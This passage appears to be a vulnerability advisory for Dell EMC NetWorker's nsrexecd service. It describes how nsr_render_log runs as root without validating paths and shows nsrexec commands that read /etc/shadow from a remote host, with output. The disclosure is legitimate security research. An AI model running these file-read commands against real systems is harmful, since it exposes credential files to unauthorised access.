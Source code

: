 Please note that we could not test against versions prior to 9.1.0.2 for lack of availability. The latest version we tested against is version **19.4.0.0.Build.25**, which is the latest stable version per Dell EMC.

Items marked with a star are unconfirmed, but we are strongly confident that they're also affected given that they share the same code base with the Linux version. Any product from Dell EMC that expose nsrexecd is most likely affected too.

## Description

From the nsrexec manual page:

> The  nsrexec  command  is run only by other NetWorker commands. It is used to remotely execute commands on NetWorker clients running nsrexecd, and also to monitor the progress of those commands.

This description is misleading given that nsrexecd runs on every EMC Networker component (server, client, and storage node). We also would like to point out that by "commands", they mean "networker commands" and not "arbitrary commands". Networker commands are a limited subset of Networker binaries such as *savefs* or *savegrp*

One command that caught our eye is **nsr\_render\_log**. This command reads messages from the NetWorker log file provided as parameter, filters and renders them according to the command line options, and sends the output to stdout.

In the example below, we run nsr\_render\_log on Networker host 192.168.121.137 to obtain tabulated logs from the daemon log file. It is nsr\_render\_log job of rendering timestamps, severity level, PID, etc from the raw file content.

```
[root@networker-client1 vagrant]# export RCMD='nsr_render_log /nsr/logs/daemon.raw'
[root@networker-client1 vagrant]# nsrexec -c 192.168.121.137
101040 30/11/20 10:26:45  1 3 0 1781430080 3928 0 networker-server nsrexecd RAP notice Generated new 'NW instance ID': 982b058f-00000004-a6d07aa0-5fc4c8e5-00015452-53cbca00 and keys for nsrauth RPC authentication. 
0 30/11/20 10:26:45  1 5 0 1781430080 3928 0 networker-server nsrexecd NSR notice @(#) Product:      NetWorker 
0 30/11/20 10:26:45  1 5 0 1781430080 3928 0 networker-server nsrexecd NSR notice @(#) Release:      9.1.0.2.Build.43 
--snip--
```

However, given that nsr\_render\_log does not validate the received path and that it runs
with root privileges, we can force it to read any file:

```
[root@networker-client1 vagrant]# export RCMD='nsr_render_log /etc/shadow'
[root@networker-client1 vagrant]# nsrexec -c 192.168.121.137
5 9 1 1 0 0 unknown unknown LOG unrendered root:$1$m.REDACTEDccI.::0:99999:7:::
5 9 1 1 0 0 unknown unknown LOG unrendered bin:*:18353:0:99999:7:::
5 9 1 1 0 0 unknown unknown LOG unrendered daemon:*:18353:0:99999:7:::
5 9 1 1 0 0 unknown unknown LOG unrendered adm:*:18353:0:99999:7:::
5 9 1 1 0 0 unknown unknown LOG unrendered lp:*:18353:0:99999:7:::
--snip--
```

Windows hosts are also affected, here we demonstrate it by reading the remote system hosts file:
